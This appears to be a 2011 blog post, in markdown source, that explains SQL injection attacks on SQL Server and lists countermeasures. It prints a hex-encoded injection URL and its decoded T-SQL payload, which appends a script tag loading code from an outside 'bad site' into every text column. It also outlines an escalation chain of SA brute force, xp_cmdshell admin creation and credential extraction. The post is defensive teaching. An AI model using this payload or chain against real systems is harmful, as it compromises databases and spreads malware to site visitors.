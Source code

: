 ```yaml
---
layout: post
date:   2011-01-15
title:  "Protecting against SQL Injection attacks"
permalink: ./blog/index.php/2011/01/protecting-against-sql-injection-attacks/
tags: [T-SQL Programming, Security, SQL Injection, Security, Database Administration, Database Design, T-SQL Programming, Code Samples, Coding Practices, Development, SQL Server]
comments: false
---
```

In a nutshell, an SQL injection attack is one where malicious code is passed to an instance of SQL Server for parsing and execution through a vulnerable application.  Although most SQL injection attacks can come from the web (having a larger "target audience") even machines connected to an organisation's network can pose a potential threat to the entire infrastructure.  Moreover, the applications do not necessarily have to be web-based ones.

An SQL Injection attack performed through a website can be as simple as replacing an application's user input parameters (which an application developer would have failed to validate for values, length, data ranges, etc.) with malicious SQL code.  The resultant actions can vary from simple data manipulation to more complex escalation of privilege - see examples below.

--------------------

#### Example 1 - Unauthorised access ####

A malicious user can modify the input parameters of a form as shown in the below image to gain access to a system.

![Example 1 - Unauthorised access](/assets/article_files/2011-01-protecting-against-sql-injection-attacks/sql_injection_unathorised_access.jpg)

--------------------

#### Example 2 - View unauthorised information ####

The below image shows how an authenticated system user can view unauthorised information using SQL injection techniques.

![Example 2 - View unauthorised information](/assets/article_files/2011-01-protecting-against-sql-injection-attacks/sql_injection_unathorised_view.jpg)

--------------------

#### Example 3 - Altering data ####

Another SQL injection technique commonly used is the passing of HEX strings to the SQL Server DBMS through vulnerable applications.  Basically, a website URL which accepts an input parameter can be replaced by something similar to the below (abridged) sample:

``` text
.../orderitem.asp?IT=GM-204;DECLARE%20@S%20NVARCHAR(4000);SET%20@S=CAST(0x44004500...006F007200%20AS%20NVARCHAR(4000));EXEC(@S);--
```

Decoding that binary data which is cast to a varchar yields the following (formatted for readability purposes):

``` sql
DECLARE @T varchar(255), @C varchar(255)
DECLARE Table_Cursor FOR
    select a.name, b.name
    from sysobjects a, syscolumns b
    where a.id=b.id and a.xtype='u'
    and(b.xtype=99 or b.xtype=35 or b.xtype=231 or b.xtype=167)
OPEN Table_Cursor
FETCH NEXT FROM Table_Cursor INTO @T, @C
WHILE(@@FETCH_STATUS=0)
BEGIN
    EXEC(<'UPDATE [' + @T + '] SET [' + @C + '] = RTRIM(CONVERT(VARCHAR, [' + @C + '])) + ''&lt;script src="http://somebadsite.cn/badscript.js"&gt;&lt;/script&gt;''')
    FETCH NEXT FROM Table_Cursor INTO @T, @C
END
CLOSE Table_Cursor
DEALLOCATE Table_Cursor
```

The script finds all text columns in the database and updates them with URL's to other web sites.  This is only possible if the login which impersonates the website/application has permissions to modify the data in the database.

Her are some references with updated listings of malicious URLs:

* [ASCII Encoded Binary String Automated SQL Injection](http://www.bloombit.com/Articles/2008/05/ASCII-Encoded-Binary-String-Automated-SQL-Injection.aspx#attack-description)
* [SQL attacks inject government sites in US, UK](http://www.theregister.co.uk/2008/08/07/new_sql_attacks/)
* [Cleanup in isle 3 please. Asprox lying around](http://isc.sans.org/diary.html?storyid=4840)
* [Cyberattacks Now Target Governments](http://www.certmag.com/read.php?in=3812)

--------------------

#### Example 4 - Escalating privileges ####

So far the examples have focused on successful SQL injection attacks localised to the website's database.  A maliciously crafted SQL statement can, if the database, DBMS and service are not configured securely, gain access to the host machine and potentially access other machines on the infrastructure.  The following steps demonstrate one way this is achievable:

1. Scan the network to gain an understanding of the possible vulnerable SQL Server machine.
2. Perform a brute force attack against any SQL Servers identified to test for weak passwords on the 'SA' login.
3. Connect to one of the machines using the "cracked" credentials and, using the SQL Server extended stored procedure "xp_cmdshell", create a Windows account with Administrative privileges on the server.  This is possible if the SQL Server service account is running under one of the privileged built-in accounts or is a member of the Local Administrators.
4. Once administrative access is gained, using other tools, any Cached Credentials can be extracted from the machine.
5. The hacked-into machine can then be used to elevate the privileges to a Domain Administrator.

--------------------

#### Possible solutions and countermeasures ####

Countermeasures include (but are not limited to):

1. Write secure application code.
2. Test all website/application inputs for SQL injection vulnerabilities.
3. Implement the principle of least privilege at all layers of the solution (i.e. client, application, business, database, etc.).
4. Deploy websites/applications using separate accounts for reading and writing/updating data.
5. Use stored procedures to access data.
6. Do not build unchecked dynamic SQL strings.
7. Log user activity.
8. Periodically retest all website/application inputs for SQL injection vulnerabilities.
9. More...

SQL injection attacks can only be prevented by following best practices and employing secure programming techniques.  Ongoing monitoring, detection, and pro-active defensive methods should also be utilised within the various layers of any web application.

Finally, another two fine examples of SQL injection attacks:

![Beat the Speed Cameras](/assets/article_files/2011-01-protecting-against-sql-injection-attacks/sql_injection_speed_camera.jpg)

![Bobby Tables](/assets/article_files/2011-01-protecting-against-sql-injection-attacks/sql_injection_bobby_tables.jpg)
